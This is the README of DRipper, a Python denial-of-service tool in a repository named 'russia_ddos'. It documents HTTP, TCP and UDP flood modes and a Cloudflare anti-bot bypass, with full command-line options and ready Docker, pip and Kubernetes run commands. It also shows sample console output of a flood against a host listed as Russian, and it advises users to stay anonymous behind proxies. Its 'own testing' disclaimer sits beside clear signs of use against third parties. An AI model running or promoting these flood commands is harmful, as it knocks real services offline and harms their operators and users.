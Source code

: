 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
──────────────────────────────────── Starting DRipper ────────────────────────────────────
[23:29:24] (1/5) Trying connect to www.localhost.orc:443...                services.py:108
──────────────────────────────────────────────────────────────────────────────────────────


                   ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                   ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                   ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                   ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                   ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                   ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                               v2.3.0

             It is the end user's responsibility to obey all applicable laws.
             It is just like a server testing script and Your IP is visible.
                           Please, make sure you are ANONYMOUS!

                        https://github.com/alexmon1989/russia_ddos

 ────────────────────────────────────────────────────────────────────────────────────────
  Description                         Status
 ────────────────────────────────────────────────────────────────────────────────────────
  Start Time, duration                2022-03-31 23:29:23 - 0:00:33
  Your Country, Public IP             DK   45.*.*.*
  Host Country, IP                    RU   127.0.0.1:443
  HTTP Request                        GET: https://www.localhost.orc:443/
  Attack Method                       http-flood
 ────────────────────────────────────────────────────────────────────────────────────────
  Threads                             2
  vCPU Count                          16
  Socket Timeout (seconds)            1
  Random Packet Length                False
 ────────────────────────────────────────────────────────────────────────────────────────
  CloudFlare DNS Protection           Not protected
  Last Availability Check             23:29:36
  Host Availability                   Accessible in 19 of 21 zones (90%)
 ────────────────────────────────────────────────────────────────────────────────────────
  HTTP-FLOOD Statistics
 ────────────────────────────────────────────────────────────────────────────────────────
  Sent Bytes @ AVG speed                  99.18 MB @ 2.92 MB/s
  Sent Packets @ AVG speed                 232,632 @ 6859 packets/s
  Connections                         success: 4, failed: 0, success rate: 100 %
 ────────────────────────────────────────────────────────────────────────────────────────
  Status Code Distribution            400: 100%
 ────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ────────────────────────────────────────────────────────────────────────────────────────
  [23:29:24]  info   thread-2    Set attack method to http-flood
  [23:29:24]  info   thread-1    Creating HTTP connection...
  [23:29:24]  info   thread-2    Creating HTTP connection...
  [23:29:25]  info   thread-5    Checking host statuses with check-host.net
  [23:29:34]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:36]  info   thread-5    Host statuses updated with check-host.net
  [23:29:43]  warn   thread-2    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-2    Creating HTTP connection...
  [23:29:54]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-1    Creating HTTP connection...

                            Press CTRL+C to interrupt process.

                                    #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: dripper [options] arg

Options:
  -h, --help            show this help message and exit
  -s TARGET, --target=TARGET
                        Attack target in {scheme}://{hostname}[:{port}][{path}] format. Multiple targets allowed.
  -t THREADS_COUNT, --threads=THREADS_COUNT (default: 100)
                        Threads count.
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN (default: 1)
                        Send random packets with random length. Turn on: 1, turn off: 0.
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48 for udp, 1000 for tcp, 0 for http).
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp-flood, tcp-flood, http-flood. Could be auto-detected based on the scheme (protocol) of the target.
  -y FILENAME, --proxy_list=FILENAME
                        File (fs or http/https) with proxies in ip:port:username:password or ip:port line format.
                        Proxies will be ignored in udp attack!
                        Examples: proxylist.txt, https://proxies.com/fhjhajkdashdja
  -k PROXY_TYPE, --proxy_type=PROXY_TYPE (default socks5)
                        Type of proxy to work with. Supported types: socks5, socks4, http.
  -c STATE, --health_check=STATE (default: 1)
                        Controls health check availability. Turn on: 1, turn off: 0.
  -e HTTP_METHOD, --http_method=HTTP_METHOD (default: GET)
  -o SOCKET_TIMEOUT, --socket_timeout=SOCKET_TIMEOUT (default: 10 without proxy, 20 with proxy)
                        Timeout in seconds for socket connection is seconds.
  -d, --dry-run         Print formatted output without full script running.
  --log-size=LOG_SIZE   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL
                        Log level for events board. Supported levels: info,
                        warn, error, none.

Example: dripper -s http://192.168.0.1 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100 -m http-flood
# or
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1 -t 100

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s tcp://127.0.0.1:80 -t 100 -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s udp://127.0.0.1:80 -t 100 -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -s udp://127.0.0.1:80 -t 100 -r 1


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -s udp://127.0.0.1:80 -t 100 -r 1
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE
